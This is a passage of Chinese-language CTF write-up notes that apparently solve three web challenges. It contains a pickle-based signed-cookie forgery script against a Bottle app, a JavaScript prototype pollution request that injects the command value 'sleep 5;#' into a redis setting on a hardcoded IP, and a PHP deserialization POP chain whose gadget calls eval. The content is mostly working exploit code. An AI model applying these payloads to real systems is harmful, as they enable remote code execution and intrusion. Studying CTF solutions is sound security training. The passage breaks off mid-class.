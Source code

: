 		  def cookie_encode(data, key):
		      ''' Encode and sign a pickle-able object. Return a (byte) string '''
		      msg = base64.b64encode(pickle.dumps(data, -1))
		      sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
		      return tob('!') + sig + tob('?') + msg
		  
		  
		  key = "Th1sIIIIIIsAAAsecret"
		  
		  cookie = cookie_encode(('user', payload()), key).decode()
		  
		  print(cookie)
		  
		  r = requests.get(f"{url}/login", cookies = {
		      "user": cookie
		  })
		  print(r.text)
		  print(r.cookies)
		  ```
- # JUST_PROTO
	- JS原型链污染
	- ```python
	  url = "http://39.107.82.142:5519"
	  r = requests.get(f"{url}/set", params = {
	      "token": "__proto__",
	      "key": "redis_set",
	      "val": "sleep 5;#"
	  })
	  r = requests.put(f"{url}/bkup")
	  print(r.text)
	  ```
- # pop
	- 普通的pop
	- 用到的链子是`TT::__destruct --> JJ::__toString --> MM::__invoke()`
	- Fast Destruct
		- php中不能有`Array(1 => 1, 1 => 2)`
		- 在这一题中，`Array(0 => tt, 0 => 114514)`会迅速销毁tt对象
	- payload生成
		- ```php
		  <?php
		  highlight_file(__FILE__);
		  class TT{
		      public $key;
		      public $c;
		      public function __destruct(){ // 对象销毁时调用
		          echo $this->key; // 将key当成字符串打印
		      }
		  
		      public function __toString(){
		          return "welcome";
		      }
		  }
		  
		  class JJ{
		      public $obj;
		      public function __toString(){ // JJ被转成字符串时调用
		          ($this -> obj)(); // 调用一个对象
		          return "1";
		      }
		      public function evil($c){
		          eval($c);
		      }
		      // public function __sleep(){
		      //     phpinfo();
		      // }
		  }
		  